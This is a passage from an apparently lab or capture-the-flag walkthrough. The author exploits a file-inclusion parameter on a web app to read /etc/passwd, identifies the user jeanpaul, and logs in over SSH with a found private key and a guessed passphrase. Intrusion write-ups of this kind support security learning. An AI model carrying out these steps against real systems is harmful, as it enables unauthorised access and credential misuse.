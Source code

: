 - Following the above, we first registered as user The url of login page is similar to the above syntaxt.

  > http://10.0.2.9:8080/dev/index.php?p=action.register

- Replacing after action. **\_**, got some users listed:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:107:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:108:65534::/var/lib/nfs:/usr/sbin/nologin
```

- Among all the users we got jeanpaul which seems to be the full form of jp. So we finally got our username.

### Again trying ssh login:

```
┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jeanpaul@10.0.2.9
Enter passphrase for key 'id_rsa':
```

- Asking for passphrase, as we found that the usr loves java through the todo.txt and similar password `I_love_java`. So, hitting blind.

```
┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jeanpaul@10.0.2.9
Enter passphrase for key 'id_rsa':
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$
```